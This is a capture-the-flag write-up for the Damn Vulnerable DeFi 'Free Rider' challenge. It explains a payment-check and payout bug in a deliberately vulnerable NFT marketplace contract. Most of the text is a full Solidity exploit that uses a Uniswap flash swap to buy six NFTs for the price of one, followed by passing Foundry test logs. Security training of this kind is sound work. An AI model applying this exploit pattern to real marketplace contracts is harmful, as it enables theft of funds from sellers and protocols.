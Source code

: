 # Damn Vulnerable Defi - Free Rider
- Scope
    - FreeRiderNFTMarketplace.sol
    - FreeRiderRecoveryManager.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## Incorrect payment deduction and price calculation in `_buyOne`

### Summary
Incorrect payment deduction and price calculation in `_buyOne` causes the payment to be returned to the buyer and the buyer only needs to send only 1 ETH worth of NFT. Exploiting uniswap's flashswap can temporarily allow the attacker to get enough ether and exploit these vulnerabilities to buy the NFT and sent to recoveryContract to trigger the bounty.

### Vulnerability Details
1. msg.value < priceToPay only checks if there is enough ETH to pay for one NFT and is incorrect if player is buying more than 1.
2. After buying NFT, the ETH is sent to buyer instead of seller.
```diff
function _buyOne(uint256 tokenId) private {
        uint256 priceToPay = offers[tokenId];
        if (priceToPay == 0) {
            revert TokenNotOffered(tokenId);
        }

-1        if (msg.value < priceToPay) {
            revert InsufficientPayment();
        }

        --offersCount;

        // transfer from seller to buyer
        DamnValuableNFT _token = token; // cache for gas savings
        _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

        // pay seller using cached token
-2        payable(_token.ownerOf(tokenId)).sendValue(priceToPay);

        emit NFTBought(msg.sender, tokenId, priceToPay);
    }
```

### Impact/Proof of Concept
1. Request a flashSwap of 15 WETH from Uniswap Pair 
2. Unwrap the WETH to ETH
3. Buy the NFT and exploit the vulnerabilities found, which will pay the nft_price to the buyer.
4. Send the NFT to recoveryContract to trigger bounty
```
function test_freeRider() public checkSolvedByPlayer {
        console.log("player ETH: beforeFlashswap", player.balance);
        
         Exploit exploit = new Exploit{value:0.045 ether}(
            address(uniswapPair),
            address(marketplace),
            address(weth),
            address(nft),
            address(recoveryManager)
        );
        exploit.attack();
        console.log("player ETH: afterExploit", player.balance);

    }

contract Exploit {
    
    IUniswapV2Pair public pair;
    IMarketplace public marketplace;

    IWETH public weth;
    IERC721 public nft;

    address public recoveryContract;
    address public player;

    uint256 private constant NFT_PRICE = 15 ether;
    uint256[] private tokens = [0, 1, 2, 3, 4, 5];

    constructor(address _pair, address _marketplace, address _weth, address _nft, address _recoveryContract)payable{
        pair = IUniswapV2Pair(_pair);
        marketplace = IMarketplace(_marketplace);
        weth = IWETH(_weth);
        nft = IERC721(_nft);
        recoveryContract = _recoveryContract;
        player = msg.sender;
    }

    function attack() external payable {
         // 1. Request a flashSwap of 15 WETH from Uniswap Pair  
        pair.swap(NFT_PRICE, 0, address(this), "1");
    }

    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external {

        // Access Control
        require(msg.sender == address(pair));
        require(tx.origin == player);

        // 2. Unwrap WETH to native ETH
        weth.withdraw(NFT_PRICE);
        console.log("player ETH: afterFlashswap&Unwrap", player.balance);

        // 3. Buy 6 NFTS for only 15 ETH total
        marketplace.buyMany{value: NFT_PRICE}(tokens);

        // 4. Pay back 15WETH + 0.3% to the pair contract
        uint256 amountToPayBack = NFT_PRICE * 1004 / 1000;
        weth.deposit{value: amountToPayBack}();
        weth.transfer(address(pair), amountToPayBack);

        // 5. Send NFTs to recovery contract so we can get the bounty
        bytes memory data = abi.encode(player);
        for(uint256 i; i < tokens.length; i++){
            nft.safeTransferFrom(address(this), recoveryContract, i, data);
        }
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) external pure returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }


    receive() external payable {}

}
```

Results
```diff
[PASS] test_freeRider() (gas: 1220654)
Logs:
  player ETH: beforeFlashswap 100000000000000000
  player ETH: afterFlashswap&Unwrap 55000000000000000
  player ETH: afterExploit 45055000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 3.62ms (1.10ms CPU time)

Ran 1 test suite in 18.81ms (3.62ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```


